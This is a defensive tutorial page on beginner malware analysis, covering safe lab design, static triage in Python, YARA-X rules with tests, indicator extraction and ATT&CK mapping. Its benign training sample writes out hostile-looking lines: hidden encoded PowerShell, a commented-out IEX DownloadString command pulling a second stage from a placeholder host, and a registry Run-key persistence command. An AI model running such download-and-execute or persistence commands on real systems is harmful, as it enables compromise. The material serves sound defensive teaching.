



# Malware Analysis Basics

## Introduction

A user at your company reports a strange email attachment. An EDR alert fires on a laptop. A scheduled task appears on a web server that nobody remembers creating. Each time, the security team has to answer the same questions quickly:

- **What is this file?**
- **What does it do, or try to do?**
- **How do we find it everywhere else, and how do we stop it?**

**Malware analysis** is the work of answering those questions. For a defender, the goal is not to admire the malware or to rebuild it. The goal is to extract **useful facts** for the rest of the defensive pipeline: hashes to block, domains to sinkhole, behaviours to [detect](./2-sec-detection-engineering.mdx), and [ATT&CK techniques](./3-sec-mitre-attack.mdx) to map coverage against.

Think of it like a food safety inspector who finds a suspicious ingredient. They do not taste it. They read the label, check where it came from, test it in a sealed lab, and then issue a recall notice so every kitchen can throw out the same batch. You will do the same: look first, run only inside a sealed lab, and publish what others need to act.

This page teaches the **beginner, defensive level** of the craft: safe lab design, static triage, YARA-X rules, reading dynamic analysis results, and writing a short report. Deep reverse engineering of real samples is an advanced specialty, so we only outline it here.

:::warning Safety and legal rules (read before anything else)
- **Never open, run, or "just double-click" a suspicious file on your own computer or a work machine.** Everything on this page that involves a real sample happens inside an isolated virtual machine.
- **Every example on this page uses harmless files only:** the industry-standard **EICAR test string**, a benign Windows launcher program from a Python package, and a text file we write ourselves that only *looks* suspicious. You do not need real malware to learn triage.
- Handle real samples only if your job requires it and your organization's policy allows it. Store them in password-protected archives (the common convention is a ZIP with the password `infected`) so nothing executes or gets quarantined by accident.
- **Do not upload company files to public sandboxes or scanners.** Uploaded files may be shared with other users of that service. A confidential contract with a macro is still a confidential contract.
- Writing, modifying, or distributing malware is illegal in most countries and is never part of defensive work. See [Ethics, Law and Responsible Disclosure](../0-sec-fundamentals/8-sec-ethics-and-law.mdx).
:::

## Malware Types in One Table

You will see these labels in alerts and threat reports. Real samples often combine several.

| Type | What it does | Typical first sign for a defender |
| --- | --- | --- |
| Virus / worm | Spreads by infecting files (virus) or by itself over the network (worm) | Many hosts alerting in a short time |
| Trojan / loader | Pretends to be something useful, then fetches more malware | Office or script process downloading a file |
| Ransomware | Encrypts data and demands payment | Mass file renames, deleted shadow copies |
| Infostealer | Steals saved passwords, cookies and tokens | Logins from new locations soon after an infection |
| Remote access trojan (RAT) / backdoor | Gives the attacker remote control | Regular outbound "beacons" to one host |
| Rootkit | Hides other malware from the OS | Tools disagree about what is running |
| Cryptominer | Uses your CPU or GPU to mine cryptocurrency | High CPU, connections to mining pools |

Ransomware resilience is covered in [Backups and Ransomware Resilience](../9-sec-system-hardening/6-sec-backups-and-ransomware.mdx), and endpoint tools in [Endpoint Protection and EDR](../9-sec-system-hardening/4-sec-endpoint-protection.mdx).

## The Four Stages of Analysis

Analysts usually move through stages that cost more time and skill at each step. You stop as soon as you have enough to act.



Most SOC work happens in the first three stages. Reverse engineering with disassemblers such as Ghidra or IDA is a career specialty of its own.

## Building a Safe Analysis Lab

Before touching any real sample, you need a place where a mistake cannot hurt anything. The rules are simple and strict.



| Rule | Why |
| --- | --- |
| Analyse only in virtual machines | You can throw a VM away; you cannot easily throw away your laptop |
| Host-only or internal network, no internet by default | Malware cannot reach its operators or spread |
| No shared folders, shared clipboard, or USB passthrough | These are bridges from the VM back to your host |
| Take a clean snapshot, revert after every sample | Each analysis starts from a known state |
| Keep the hypervisor patched | VM escape bugs exist, though they are rare |
| Separate lab hardware for real work if possible | Defense in depth for your own workstation |

Two free, widely used toolkits:

- **[REMnux](https://docs.remnux.org/)**: a Linux toolkit for malware analysis based on Ubuntu. It ships as a VM appliance, a Docker container, or an install on a dedicated system. It includes tools such as INetSim, which pretends to be the internet (DNS, HTTP, SMTP) so a sample "talks" to your lab instead of the real world.
- **[FLARE-VM](https://github.com/mandiant/flare-vm)**: installation scripts from Mandiant that turn a Windows 10 or later VM into a reverse engineering workstation. Its documentation says it should **only** be installed in a virtual machine, asks you to snapshot before installing, and recommends switching to host-only networking afterwards. Because it disables Windows Defender to work, the VM must stay isolated.

For general lab setup (hypervisors, networking, practice targets) see [Building a Safe Practice Lab](../10-sec-offensive-security/1-sec-lab-setup.mdx).

## Stage 1 and 2: Static Triage in Python

Static analysis means examining a file **without executing it**. Reading bytes is safe; running them is not. We will build a small triage tool and run it on harmless samples.

### Creating harmless practice samples

The **EICAR test file** is a 68-byte string agreed on by antivirus vendors. It does nothing at all, but security products detect it as if it were malware, which makes it perfect for testing. We also create a text file that contains suspicious-looking *patterns* (a hidden encoded PowerShell command and a registry Run key) but cannot do anything, because it is plain text with a `.txt` extension and its "encoded" payload only prints a greeting.

```python
"""Create harmless practice samples for static triage."""
import base64
import os
from pathlib import Path

out = Path("samples")
out.mkdir(exist_ok=True)

# 1. The EICAR test string: harmless, but every antivirus product detects it.
eicar = r"X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"
(out / "eicar.com").write_text(eicar)

# 2. A benign script that only LOOKS suspicious. The encoded part just prints text.
inner = "Write-Output 'hello from a training sample'"
encoded = base64.b64encode(inner.encode("utf-16-le")).decode()
script = (
    "# training sample - does nothing harmful\n"
    f"$u = 'hxxp://updates.brightcart-cdn.example/stage2.ps1'\n"
    f"powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand {encoded}\n"
    "# IEX (New-Object Net.WebClient).DownloadString($u)  <- commented out, never runs\n"
    "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Updater /d updater.exe\n"
)
(out / "invoice_reminder.ps1.txt").write_text(script)

# 3. Random bytes stand in for encrypted or packed data.
(out / "blob.bin").write_bytes(os.urandom(4096))
print(sorted(p.name for p in out.iterdir()))
```

Output:

```text
['blob.bin', 'eicar.com', 'invoice_reminder.ps1.txt']
```

Your own antivirus may quarantine `eicar.com` the moment it is written. That is the product working correctly, and one more reason to do this in the lab VM.

For a real Windows executable we use `cli-64.exe`, a tiny, legitimate launcher that ships inside older `setuptools` wheels (for example version 69.5.1). Download the wheel with `pip download --no-deps setuptools==69.5.1`, then extract `setuptools/cli-64.exe` with `python3 -m zipfile -e`. It shows what "normal" looks like.

### Hashes, file type, entropy and strings

Four cheap facts identify most files:

1. **Hashes** (SHA-256, plus MD5/SHA-1 for older tools) give the file a fingerprint you can look up and block.
2. **Magic bytes**, the first few bytes of a file, reveal the real type regardless of the extension. An `invoice.pdf` that starts with `MZ` is a Windows executable in disguise.
3. **Shannon entropy** measures how random the bytes look, from 0 to 8 bits per byte. Plain text sits around 4 to 5. Compressed or encrypted data sits close to 8. A high-entropy executable section often means the code is **packed** (compressed or encrypted to hide it), which is a common malware trait but also used by legitimate software protectors.
4. **Strings**, readable text inside a binary, often leak URLs, file paths, error messages and commands.

```python
"""Static triage: identify a file without ever executing it."""
import hashlib
import math
import re
import sys
from collections import Counter
from pathlib import Path

MAGIC = {
    b"MZ": "Windows PE executable (EXE/DLL)",
    b"\x7fELF": "Linux ELF executable",
    b"%PDF": "PDF document",
    b"PK\x03\x04": "ZIP archive (also DOCX/XLSX/JAR/APK)",
    b"\xd0\xcf\x11\xe0": "Legacy Office (OLE2) document",
    b"#!": "Script with shebang",
}

def file_type(data: bytes) -> str:
    for magic, name in MAGIC.items():
        if data.startswith(magic):
            return name
    if all(32 <= b < 127 or b in (9, 10, 13) for b in data[:512]):
        return "Plain text (ASCII)"
    return "Unknown binary"

def hashes(data: bytes) -> dict:
    return {
        "md5": hashlib.md5(data).hexdigest(),
        "sha1": hashlib.sha1(data).hexdigest(),
        "sha256": hashlib.sha256(data).hexdigest(),
    }

def entropy(data: bytes) -> float:
    """Shannon entropy in bits per byte: 0 = all identical, 8 = looks random."""
    if not data:
        return 0.0
    counts = Counter(data)
    n = len(data)
    return -sum(c / n * math.log2(c / n) for c in counts.values())

def strings(data: bytes, min_len: int = 6) -> list[str]:
    """Printable ASCII runs, like the Unix `strings` tool."""
    return [m.decode() for m in re.findall(rb"[\x20-\x7e]{%d,}" % min_len, data)]

def triage(path: Path) -> None:
    data = path.read_bytes()
    print(f"== {path.name} ({len(data)} bytes)")
    print(f"type:    {file_type(data)}")
    print(f"sha256:  {hashes(data)['sha256']}")
    print(f"entropy: {entropy(data):.2f} bits/byte")
    found = strings(data)
    print(f"strings: {len(found)} found, first 3: {found[:3]}")

if __name__ == "__main__":
    for name in sys.argv[1:]:
        triage(Path(name))
```

```bash
python3 triage.py samples/eicar.com samples/invoice_reminder.ps1.txt samples/blob.bin samples/cli-64.exe
```

Example output (your `blob.bin` hash will differ because it is random):

```text
== eicar.com (68 bytes)
type:    Plain text (ASCII)
sha256:  275a021bbfb6489e54d471899f7db9d1663fc695ec2fe2a2c4538aabf651fd0f
entropy: 4.87 bits/byte
strings: 1 found, first 3: ['X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*']
== invoice_reminder.ps1.txt (443 bytes)
type:    Plain text (ASCII)
sha256:  31557ff58603abd27a86fb97e80dfbf6dd61766663804ac839b582afcbc0430f
entropy: 5.32 bits/byte
strings: 5 found, first 3: ['# training sample - does nothing harmful', "$u = 'hxxp://updates.brightcart-cdn.example/stage2.ps1'", 'powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand VwByAGkA...']
== blob.bin (4096 bytes)
type:    Unknown binary
sha256:  c138b3d780e0cbba9d465434c9bc977b0a5e20688eade90604e1d2469df1d199
entropy: 7.95 bits/byte
strings: 3 found, first 3: ['"=|zQ[7@', '3_C9v?n', '!,E;<5`']
== cli-64.exe (14336 bytes)
type:    Windows PE executable (EXE/DLL)
sha256:  bbb3de5707629e6a60a0c238cd477b28f07f0066982fda953fa6fcec39073a4a
entropy: 5.25 bits/byte
strings: 132 found, first 3: ['!This program cannot be run in DOS mode.', '`.rdata', '@.data']
```

Notice how the random blob scores 7.95 and produces only garbage "strings", while normal files sit near 5. Entropy is a **hint, never a verdict**: ZIP files, images and legitimately compressed installers are high-entropy too.

### Looking up a hash (not the file)

Once you have a SHA-256, ask a reputation service whether anyone has seen it. A **hash lookup** reveals nothing about your file's contents, unlike an upload. With the VirusTotal API v3 you send `GET https://www.virustotal.com/api/v3/files/` followed by the hash, with your key in the `x-apikey` header. A `404` means nobody has submitted the file; otherwise `data.attributes.last_analysis_stats` holds counts such as `malicious`, `suspicious` and `undetected`.

Read the result with care. "0 detections" does not mean safe (new or targeted samples are often unknown), and a few detections from obscure engines on a common installer may be false positives. The free public API has strict rate limits and terms of use; check the [VirusTotal API docs](https://docs.virustotal.com/reference/overview) before automating it.

### Inspecting a Windows executable with pefile

Windows programs use the **PE (Portable Executable)** format. Its headers tell you the CPU architecture, a claimed compile time, the sections, and the **imports**: the Windows API functions the program plans to call. Imports are a quick capability sketch. A program importing networking, process-injection and registry functions deserves more attention than one that only reads files.

The [`pefile`](https://github.com/erocarrera/pefile) library parses these headers without running anything:

```python
"""Read PE headers, sections and imports. pefile parses; it never executes."""
import sys
from datetime import datetime, timezone

import pefile

pe = pefile.PE(sys.argv[1])

machine = pefile.MACHINE_TYPE.get(pe.FILE_HEADER.Machine, hex(pe.FILE_HEADER.Machine))
stamp = datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp, tz=timezone.utc)
print(f"machine: {machine}")
print(f"compiled (claimed): {stamp:%Y-%m-%d}")
print(f"imphash: {pe.get_imphash()}")

print("\nsections:")
for s in pe.sections:
    name = s.Name.rstrip(b"\x00").decode(errors="replace")
    print(f"  {name:8} size={s.SizeOfRawData:6}  entropy={s.get_entropy():.2f}")

print("\nimports:")
for entry in getattr(pe, "DIRECTORY_ENTRY_IMPORT", []):
    funcs = [imp.name.decode() for imp in entry.imports if imp.name]
    print(f"  {entry.dll.decode()}: {len(funcs)} functions, e.g. {funcs[:3]}")
```

Output for the benign `cli-64.exe` (shortened):

```text
machine: IMAGE_FILE_MACHINE_AMD64
compiled (claimed): 2023-05-20
imphash: 77d2a6fffe40a245d700fae4d8114870

sections:
  .text    size=  6144  entropy=6.16
  .rdata   size=  5120  entropy=4.20
  .data    size=   512  entropy=0.44
  .pdata   size=   512  entropy=3.71
  .rsrc    size=   512  entropy=4.70
  .reloc   size=   512  entropy=0.72

imports:
  KERNEL32.dll: 23 functions, e.g. ['CreateFileA', 'GetFinalPathNameByHandleA', 'WaitForSingleObject']
  VCRUNTIME140.dll: 5 functions, e.g. ['__C_specific_handler', 'memset', '__current_exception']
  api-ms-win-crt-runtime-l1-1-0.dll: 18 functions, e.g. ['_initialize_onexit_table', '_register_onexit_function', '_cexit']
```

This is what a healthy small program looks like: standard section names, moderate entropy, and many imports from normal runtime libraries. Things that would raise questions in a real investigation:

| Observation | Why it is interesting | Innocent explanations |
| --- | --- | --- |
| Very few imports (only loader functions) | Code may resolve the rest at runtime to hide them | Some installers and protectors |
| Section with entropy above about 7.2 | Possibly packed or encrypted code | Compressed resources, legitimate packers |
| Unusual section names | Some packers rename sections | Some compilers and protectors |
| Compile date in the future or 1970 | Timestamp forged or zeroed | Reproducible builds zero the field on purpose |
| Imports for process memory writing plus thread creation | Pattern linked to process injection | Debuggers, security tools |

The **imphash** is a hash of the import table. Samples from the same malware family built with the same toolchain often share it, so it is a useful pivot, though weaker than a file hash.

## Writing YARA-X Rules

**YARA** is the standard pattern-matching language for describing malware families: "a file that contains these strings or bytes, under these conditions." **[YARA-X](https://virustotal.github.io/yara-x/)** is VirusTotal's Rust rewrite of YARA. It keeps the rule language, is faster for many rule sets, and gives clearer error messages. Install the Python package with `pip install yara-x` and import it as `yara_x`. The `yr` command-line tool is a separate install; see the project's installation page.

Here are three rules for our training samples. Each one documents the ATT&CK technique it hints at in `meta`.

```c
rule EICAR_Test_File
{
    meta:
        description = "Harmless antivirus test string"
        author = "BrightCart SOC"
    strings:
        $eicar = "EICAR-STANDARD-ANTIVIRUS-TEST-FILE"
    condition:
        $eicar and filesize < 200
}

rule PS_Hidden_Encoded_Command
{
    meta:
        description = "PowerShell launched hidden with an encoded command"
        attack = "T1059.001, T1027"
    strings:
        $ps = "powershell" nocase
        $enc1 = "-EncodedCommand" nocase
        $enc2 = " -enc " nocase
        $hidden = "-WindowStyle Hidden" nocase
    condition:
        $ps and any of ($enc*) and $hidden
}

rule Run_Key_Persistence_Text
{
    meta:
        description = "Script text that writes a Run key"
        attack = "T1547.001"
    strings:
        $run = "CurrentVersion\\Run" nocase
        $reg = "reg add" nocase
    condition:
        all of them
}
```

Save it as `rules/triage.yar`. Scan from Python:

```python
import sys
from pathlib import Path

import yara_x

rules = yara_x.compile(Path("rules/triage.yar").read_text())
scanner = yara_x.Scanner(rules)
scanner.set_timeout(10)  # seconds; protects you from pathological files

for name in sys.argv[1:]:
    results = scanner.scan(Path(name).read_bytes())
    for rule in results.matching_rules:
        meta = dict(rule.metadata)
        offsets = [m.offset for p in rule.patterns for m in p.matches]
        print(f"{name}: {rule.identifier} ({meta.get('attack', '-')}) at offsets {offsets}")
```

```bash
python3 scan.py samples/*
```

Output:

```text
samples/eicar.com: EICAR_Test_File (-) at offsets [28]
samples/invoice_reminder.ps1.txt: PS_Hidden_Encoded_Command (T1059.001, T1027) at offsets [97, 143, 123]
samples/invoice_reminder.ps1.txt: Run_Key_Persistence_Text (T1547.001) at offsets [398, 358]
```

The same scan from the command line uses `yr scan RULES_PATH TARGET_PATH`, for example `yr scan rules/triage.yar samples/`. Add `--output-format json` for machine-readable results, and run `yr fmt` to format rule files consistently.

### Test your rules like code

A YARA rule is a detection, and detections need tests for both **true positives** and **false positives**. Treat them the way [Detection Engineering](./2-sec-detection-engineering.mdx) treats SIEM rules:

```python
from pathlib import Path

import yara_x

RULES = yara_x.compile(Path("rules/triage.yar").read_text())

def matches(data: bytes) -> set[str]:
    return {r.identifier for r in RULES.scan(data).matching_rules}

def test_eicar_detected():
    assert "EICAR_Test_File" in matches(Path("samples/eicar.com").read_bytes())

def test_training_script_detected():
    hits = matches(Path("samples/invoice_reminder.ps1.txt").read_bytes())
    assert hits == {"PS_Hidden_Encoded_Command", "Run_Key_Persistence_Text"}

def test_admin_script_not_flagged():
    # A normal admin one-liner: PowerShell, but not hidden and not encoded.
    benign = b"powershell.exe -NoProfile -File C:\\scripts\\backup.ps1"
    assert matches(benign) == set()

def test_benign_exe_not_flagged():
    assert matches(Path("samples/cli-64.exe").read_bytes()) == set()
```

```bash
python3 -m pytest -q test_rules.py
```

Output:

```text
....                                                                     [100%]
4 passed in 0.01s
```

Good YARA rules combine several **distinctive** strings with a condition, and add limits such as `filesize`. A rule that matches the single word `powershell` would flag every IT admin script in the company.

## Extracting Indicators Safely

Static analysis of scripts often reveals indicators directly. Two habits matter:

- **Decode, never execute.** PowerShell's `-EncodedCommand` is Base64 of UTF-16LE text. Decoding it with Python only reads text; passing it to a shell would run it.
- **Defang indicators** when you share them: `hxxp://` instead of `http://` and `[.]` instead of `.`, so nobody clicks a live malicious link in a ticket or chat.

```python
"""Pull indicators out of text WITHOUT running anything, and keep them defanged."""
import base64
import re
import sys
from pathlib import Path

text = Path(sys.argv[1]).read_text()

def refang(s: str) -> str:
    return s.replace("hxxp", "http").replace("[.]", ".")

def defang(s: str) -> str:
    return s.replace("http", "hxxp").replace(".", "[.]")

urls = {refang(u) for u in re.findall(r"hxxps?://[^\s'\"]+|https?://[^\s'\"]+", text)}
domains = {re.sub(r"^https?://", "", u).split("/")[0] for u in urls}
reg_keys = set(re.findall(r"HK(?:CU|LM)\\[^\s]+", text))

# Decode PowerShell -EncodedCommand blobs (Base64 of UTF-16LE). Decoding is safe;
# we only read the text, we never pass it to a shell.
decoded = [
    base64.b64decode(blob).decode("utf-16-le")
    for blob in re.findall(r"-EncodedCommand\s+([A-Za-z0-9+/=]+)", text)
]

print("urls:    ", sorted(defang(u) for u in urls))
print("domains: ", sorted(defang(d) for d in domains))
print("reg keys:", sorted(reg_keys))
print("decoded: ", decoded)
```

Output:

```text
urls:     ['hxxp://updates[.]brightcart-cdn[.]example/stage2[.]ps1']
domains:  ['updates[.]brightcart-cdn[.]example']
reg keys: ['HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run']
decoded:  ["Write-Output 'hello from a training sample'"]
```

These indicators feed straight into [Threat Intelligence](./4-sec-threat-intelligence.mdx) sharing and into blocklists and hunts. Remember the Pyramid of Pain: hashes and domains are easy for an attacker to change, so the **behaviours** you found (hidden encoded PowerShell, Run key persistence) are the more durable detections.

## Stage 3: Dynamic Analysis Concepts

Static analysis has limits. Packed code, encrypted strings and downloaded second stages only reveal themselves when the program runs. **Dynamic analysis** runs the sample inside an instrumented, isolated VM and records what happens.



What you record and which tools capture it:

| Behaviour | Example tools | Sysmon event IDs |
| --- | --- | --- |
| Process creation and command lines | Sysmon, Process Monitor (Procmon) | 1 |
| Network connections | Sysmon, Wireshark, tcpdump | 3 |
| DNS queries | Sysmon, INetSim / FakeDNS logs | 22 |
| Files created | Sysmon, Procmon | 11 |
| Registry values set | Sysmon, Procmon, Regshot (before/after diff) | 13 |

You can build this yourself with FLARE-VM plus a REMnux VM running INetSim, or use an **automated sandbox**. **[CAPE](https://github.com/kevoreilly/CAPEv2)** is a popular open-source sandbox you host yourself; commercial and public services (for example ANY.RUN, Hybrid Analysis, Joe Sandbox, or VirusTotal's behaviour reports) give you results without running infrastructure, at the cost of sharing the sample.

Know the limits of a sandbox:

- Some malware checks whether it is in a VM or sandbox and stays quiet when it is. A clean sandbox report does **not** prove a file is safe.
- Some samples wait minutes or hours, or need a specific user action, before doing anything.
- A fake internet means second-stage downloads fail, so you may only see the first step of the chain.

For packet capture skills, see [Packet Analysis with Wireshark and tcpdump](../2-sec-network-security/9-sec-packet-analysis.mdx).

## Mapping Behaviour to ATT&CK

Raw observations become far more useful when you translate them into [MITRE ATT&CK](./3-sec-mitre-attack.mdx) techniques: detection engineers can check coverage, and threat intel analysts can compare with known groups. ATT&CK v19 (2026) split the old Defense Evasion tactic into **Stealth** (TA0005, hiding activity) and **Defense Impairment** (TA0112, disabling or weakening security controls), so older reports may use different tactic names.

| Observed in our training sample or a typical sandbox report | Technique | Tactic (v19) |
| --- | --- | --- |
| `powershell.exe -WindowStyle Hidden` | T1564.003 Hidden Window | Stealth |
| `-EncodedCommand` Base64 payload | T1027.010 Command Obfuscation | Stealth |
| PowerShell used to run commands | T1059.001 PowerShell | Execution |
| `reg add ...\CurrentVersion\Run` | T1547.001 Registry Run Keys / Startup Folder | Persistence |
| Downloads `stage2.ps1` over HTTP | T1105 Ingress Tool Transfer | Command and Control |
| Stops the antivirus service (common in ransomware reports) | T1685 Disable or Modify Tools | Defense Impairment |
| Clears Windows event logs | T1685.005 Clear Windows Event Logs | Defense Impairment |

Technique IDs and tactic assignments change between ATT&CK releases, so verify each mapping against the current version on [attack.mitre.org](https://attack.mitre.org/).

## Writing a Short Analysis Report

Analysis that stays in your head helps nobody. A one-page report in a consistent template is enough for most SOC cases:

```text
Sample report: BC-2026-0412
Analyst: SOC on-call         Date: 2026-10-11       TLP: AMBER

Summary
  invoice_reminder.ps1 is a script loader delivered as an email attachment.
  It launches hidden, encoded PowerShell, sets a Run key for persistence, and
  attempts to download a second stage. Second stage not retrieved (lab offline).

Verdict: Malicious (high confidence)

Indicators (defanged)
  sha256  31557ff58603abd27a86fb97e80dfbf6dd61766663804ac839b582afcbc0430f
  url     hxxp://updates[.]brightcart-cdn[.]example/stage2[.]ps1
  regkey  HKCU\Software\Microsoft\Windows\CurrentVersion\Run  value=Updater

ATT&CK
  T1564.003, T1027.010, T1059.001, T1547.001, T1105

Detections
  YARA: PS_Hidden_Encoded_Command, Run_Key_Persistence_Text (tested)
  SIEM: hidden + encoded PowerShell process creation (Sysmon EID 1)

Recommended actions
  Block domain and hash; hunt for Run value "Updater" fleet-wide;
  isolate and reimage the affected laptop; reset the user's credentials.
```

The "Recommended actions" section connects your findings to [Incident Response](../12-sec-incident-response/0-sec-incident-response-lifecycle.mdx). If the sample is evidence in a case that could go to court or to regulators, follow [Digital Forensics Basics](../12-sec-incident-response/2-sec-digital-forensics.mdx) for chain of custody before you start.

## Real-World Scenario

**BrightCart**, an online store with 300 employees, has a four-person SOC. On Monday morning, the EDR blocks `invoice_reminder.ps1` on a finance laptop after a user opened an email attachment. Two other finance users received the same email. The SOC lead asks: "Do we need to do anything beyond the block?"

**Walkthrough:**

1. **Triage (5 minutes).** The analyst pulls the quarantined file from the EDR console into the lab, never onto a workstation. The SHA-256 lookup on VirusTotal returns no results: this exact file is new, which is common for phishing loaders that are slightly altered per campaign.
2. **Static analysis (20 minutes).** Strings and the IOC script show a hidden, encoded PowerShell command, a Run key, and a download URL. The analyst decodes the command and confirms it would download a second stage.
3. **Decide on dynamic analysis.** The file is a phishing attachment addressed to BrightCart staff, so it may contain internal names. The analyst runs it in the team's **private CAPE sandbox** with INetSim rather than a public service, and confirms the Run key and the DNS lookup for the `.example` domain.
4. **Act (30 minutes).** The domain and hash go to the email gateway and DNS filter; the analyst hunts across all endpoints for the `Updater` Run value and finds none; the two other recipients' mailboxes are purged; the YARA rules and a Sigma rule for hidden encoded PowerShell go into the detection repository with tests.
5. **Report.** The one-page report above goes to the SOC lead and the threat intel channel.

**Why this approach:** The block already stopped execution on one laptop, but only analysis revealed the persistence mechanism and the C2 domain, which let the team prove no other machine was infected and protect the users who had not opened the email yet. Stopping after the static stage would have been reasonable too, since it already produced actionable IOCs; the private sandbox simply confirmed them cheaply.

**When to use it / when not to:** Do this level of analysis when a sample reached a user, when there is no reliable vendor verdict, or when you need indicators to scope an incident. Do not spend hours reverse engineering commodity malware that your EDR already identified by family name with high confidence; use the vendor's report and move on. Escalate to full reverse engineering (or an external firm) only when the stakes justify it, for example a targeted attack or ransomware you need to understand to recover.

**Alternatives and trade-offs:**

| Approach | Pros | Cons | Best for |
| --- | --- | --- | --- |
| EDR / AV verdict only | Instant, no skills needed | Black box; little detail for hunting or scoping | Known commodity malware already blocked |
| Public sandbox or scanner | Fast, rich reports, free tiers | Sample may be shared with other users; attackers can see their file was found | Files with no confidential content |
| Private sandbox (CAPE, commercial on-prem) | Data stays in-house; repeatable | Infrastructure and upkeep; evasive samples may stay quiet | Regular SOC analysis of internal files |
| Manual static triage (this page) | Safe, quick, teaches you the sample | Misses packed or downloaded behaviour | First look at every sample |
| Full reverse engineering | Complete understanding, config and keys | Days of expert time | Targeted attacks, high-impact incidents |

Most teams combine them: EDR verdict first, quick static triage, a private sandbox run when needed, and reverse engineering rarely.

## Common Mistakes

- **Leaving the lab connected to the internet.** The sample can reach its operators, download more malware, or attack others. Default to a fake internet.
- **Uploading confidential documents to public scanners.** Look up the hash first. Upload only when you are sure the file holds nothing sensitive and policy allows it.
- **Trusting one weak signal.** High entropy, odd timestamps and few imports all have innocent explanations. Look for several signals that agree.
- **Sharing live (fanged) URLs** in tickets and chat where someone can click them.
- **Writing YARA rules on a single generic string.** They produce floods of false positives. Combine distinctive strings and test against known-good files.
- **Stopping at hashes.** Hashes break with a one-byte change. Turn behaviours into detections that last.

## Summary

- Malware analysis for defenders means extracting **actionable facts**: indicators, behaviours, ATT&CK techniques and detections.
- Work in stages: triage, static, dynamic, and (rarely) reverse engineering. Stop when you have enough to act.
- Analyse only in an **isolated, snapshotted VM** with no shared folders and a fake internet. REMnux and FLARE-VM are common free toolkits.
- Static triage needs only hashes, magic bytes, entropy, strings and PE imports, all safe to collect with Python.
- **YARA-X** rules describe families; test them for both hits and false positives like any other detection.
- Dynamic analysis reveals real behaviour, but sandboxes can be evaded; a quiet report is not proof of safety.
- Map behaviours to **ATT&CK v19** (note the new Stealth and Defense Impairment tactics), defang indicators, and write a short, consistent report.

## Exercises

1. **Triage practice.** Run `triage.py` on five ordinary files on your system (a PDF, a ZIP, a PNG, a Python script, a Linux binary). Record type and entropy for each. Which normal files have entropy above 7, and why?
2. **Rule tuning.** Add a fourth YARA-X rule that detects the commented-out `DownloadString` pattern only when it is combined with `IEX` or `Invoke-Expression`. Write one test that matches and two tests with legitimate admin scripts that must not match.
3. **Report writing.** Using the report template, write a report for the EICAR file as if a user had reported it. What verdict do you give, and what actions (if any) do you recommend?
4. **Lab design.** Draw your own analysis lab as a mermaid diagram. List every path a sample could use to reach your host or the internet, and how you block each one.

**Related pages in this tutorial:**

- [Detection Engineering](./2-sec-detection-engineering.mdx) turns behaviours into tested SIEM rules.
- [MITRE ATT&CK](./3-sec-mitre-attack.mdx) explains techniques, tactics and coverage mapping.
